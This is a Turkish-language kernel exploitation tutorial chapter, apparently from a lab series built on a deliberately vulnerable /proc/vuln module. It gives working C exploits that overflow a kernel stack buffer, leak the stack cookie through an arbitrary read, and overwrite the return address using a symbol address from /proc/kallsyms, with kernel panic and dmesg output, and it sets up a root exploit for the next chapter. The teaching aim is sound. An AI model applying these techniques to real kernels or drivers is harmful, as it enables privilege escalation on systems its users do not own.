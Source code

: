 # Exploit zamanı
Modülümüzü yüklediğimize göre exploit etmeye geçebiliriz.

İlk exploitimizde amacımız `cant_get_here` fonksiyonunu çağırmak olacak.

Bunun için buffer overflow zafiyetini kullanarak stack üzerinde kaydedilmiş 
olan dönüş adresinin (return adresi) yerine `cant_get_here`ın adresini yazacağız.

### Stack cookiesi neden önemli?
Ancak stack cookielerini dikkate almak zorundayız, buffer overflow'u exploit ederken 
stack şu şekilde görünecektir:
```
local buffer  
---------------
stack cookie  
---------------
return address
```
Burda eğer doğrudan lokal buffer'ı taşırıp, stack cookie'ye rastgele birşeyler yazıp return 
adrese yazmaya geçersek stack cookiesi bozulacağından kernel panikliyecektir.

Bunu deneyip de görebiliriz, fakat önce `cant_get_here` fonksiyonun adresine ihtiyacımız var,
bunun için `/proc/kallsyms`'i kullanabiliriz. `kallsyms` tüm kernel sembollerinin adreslerini 
içeriyor. Bunların arasından `cant_get_here`ın adresini almak adına: `cat /proc/kallsyms | grep cant_get_here`

Bu örnekte `cant_get_here` `ffffffff81094a50` adresinde.

Hadi bu adresi kullanarak basit bir exploit yazalım:
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <fcntl.h>

#define DEVICE "/proc/vuln"

int main()
{

    // proc dosyasını okuma ve yazma izinleri ile açıyoruz
    // dosyanın handle'ını fd değişkenine kaydediyoruz
    int fd = open(DEVICE, O_RDWR);

    // yazıcağımız veriyi tutacağımız buffer,
    // long kullanmamızın temel sebebi cookie'nin 8 byte olması 
    // bu sonrasında işimizi kolaylaştıracak
    unsigned long w[3];

    // array'in tüm içerğini sıfırlıyoruz
    bzero(w, sizeof(w));

    w[0] = 0; // local buffer 
    w[1] = 0; // stack cookie 
    w[2] = (unsigned long)0xffffffff81094a50; // return address 

    puts("Writing payload to "DEVICE);
    // buffer'ı proc dosyasına yazıyoruz 
    write(fd, w, sizeof(w));

    // son olarak dosyayı kapatıyoruz
    close(fd);

}
```
Bu exploiti `gcc -o exploit -static [dosya]` komutu ile derleyip çalıştırırsak beklediğimiz 
kernel paniğe sebep olacaktır:
```
[root@k101 first]# ./exploit
[   85.312183] [vuln] Copied to buffer:
[   85.312213] Kernel panic - not syncing: stack-protector: Kernel stack is corrupted in: procfile_write+0x78/0x80 [vuln]
[   85.317712] CPU: 0 PID: 255 Comm: exploit Tainted: G           O      5.15.135 #1
[   85.318350] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.2-2-2 04/01/2014
[   85.319143] Call Trace:
[   85.319395]  <TASK>
[   85.319615]  dump_stack_lvl+0x33/0x46
[   85.320003]  panic+0x107/0x2bc
[   85.320304]  ? _printk+0x63/0x7e
[   85.320610]  ? procfile_write+0x78/0x80 [vuln]
[   85.321107]  __stack_chk_fail+0x10/0x10
[   85.321492]  procfile_write+0x78/0x80 [vuln]
[   85.321910]  init_module.cold+0x1a/0x1a [vuln]
[   85.322291]  __cond_resched+0x11/0x40
[   85.322596]  vfs_write+0xb7/0x260
[   85.322872]  ksys_write+0x66/0xe0
[   85.323148]  do_syscall_64+0x3b/0x90
[   85.323455]  entry_SYSCALL_64_after_hwframe+0x62/0xcc
[   85.323869] RIP: 0033:0x410b84
[   85.324125] Code: 89 02 b8 ff ff ff ff eb b5 67 e8 d7 10 00 00 0f 1f 80 00 00 00 00 f3 0f 1e fa 80 3d dd 1e 09 00 00 74 13 b8 01 00 00 00 08
[   85.325677] RSP: 002b:00007fff3a694958 EFLAGS: 00000202 ORIG_RAX: 0000000000000001
[   85.326295] RAX: ffffffffffffffda RBX: 00007fff3a694ab8 RCX: 0000000000410b84
[   85.326887] RDX: 0000000000000018 RSI: 00007fff3a694970 RDI: 0000000000000003
[   85.327468] RBP: 00007fff3a694990 R08: 00000000004a21c0 R09: 0000000000000004
[   85.328059] R10: 0000000000000000 R11: 0000000000000202 R12: 00007fff3a694aa8
[   85.328653] R13: 0000000000000001 R14: 000000000049e2e8 R15: 0000000000000001
[   85.329265]  </TASK>
[   85.329579] Kernel Offset: disabled
[   85.329893] ---[ end Kernel panic - not syncing: stack-protector: Kernel stack is corrupted in: procfile_write+0x78/0x80 [vuln] ]---
```

### Stack cookiesini leaklemek
O halde stack cookie'yi korumamız lazım. Ancak stack cookiesini bilmeden bu mümkün değil - 
stack cookiesini leaklememiz lazım. Bunu yapmak için ikinci zafiyet olan arbitary memory read'i 
kullanacağız. 

Daha iyi açıklamak gerekirse önce arbitary read kullanarak stack'den cookie'yi leakleyeceğiz,
ardından leaklediğimiz cookie ile buffer overflowu gerçekleştireceğiz.

Fakat burda dikkat etmemiz gereken bir nokta lokal buffer'ın arbitary read'i exploit ederken 
32 byte olduğu. Stack cookie'si de 8 byte olduğundan toplam 40 byte okuyacağız. Son 8 byte'daki 
cookie'yi daha sonra yazma bufferına geçebiliriz:
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <fcntl.h>

#define DEVICE "/proc/vuln"

int main()
{

    // proc dosyasını okuma ve yazma izinleri ile açıyoruz
    // dosyanın handle'ını fd değişkenine kaydediyoruz
    int fd = open(DEVICE, O_RDWR);

    // yazıcağımız veriyi tutacağımız buffer
    unsigned long w[3];
    // okuyacağımız veriyi tutacağımız buffer 
    // totalde 40 byte okuyacağız
    unsigned long r[5];

    // array'lerin tüm içerğini sıfırlıyoruz
    bzero(w, sizeof(w));
    bzero(r, sizeof(r));
    
    read(fd, r, sizeof(r));
    // hex formatında okuduğumuz veriyi ekrana basıyoruz
    for(int i = 0; i < sizeof(r)/8; i++){
        printf("Reading (%d): %lx\n", i, r[i]);
    }
    printf("Cookie leaked! %lx\n", r[4]);

    w[0] = 0; // local buffer 
    // stack cookie okuduğumuz verinin en sonunda yer alacak
    w[1] = r[4]; // stack cookie
    w[2] = (unsigned long)0xffffffff81094a50; // return address 

    puts("Writing payload to "DEVICE);
    // buffer'ı proc dosyasına yazıyoruz 
    write(fd, w, sizeof(w));

    // son olarak dosyayı kapatıyoruz
    close(fd);

}
```
Bu exploit başarı ile cookie'i koruyarak return adresimizin üzerine yazacaktır:
```
[root@k101 first]# ./exploit
Reading (0): 4141414141414141
Reading (1): 4141414141414141
Reading (2): 4141414141414141
Reading (3): 4141414141414141
Reading (4): 17fffed8fde5f100
Cookie leaked! 17fffed8fde5f100 
Writing payload to /proc/vuln
```
Burda ilk 32 byte `A` harfi ile dolu olan lokal bufferımız, ardından gelen `17fffed8fde5f100`
bizim stack cookiemiz, exploit çalıştıktan sonra dmesg çıktısına bakarsak:
```
[  158.068013] [vuln] /proc/vuln created
[  164.520880] [vuln] Reading 40 bytes
[  164.524063] [vuln] Copied to buffer:
[  164.524066] [vuln] How did we get here?
```
`cant_get_here` fonksiyonu çalıştırmayı başardığımızı görebiliriz.

Exploitimiz çalıştı ancak bize herhangi birşey kazandırmadı. Sadece modülümüzdeki erişilemez olan 
bir fonksiyonu çağırdık. Bu şekilde temel fikri aldığımıza göre artık bir root exploiti yazabiliriz.

---
[Önceki](deeper.md) | [Sonraki](ret2root.md)

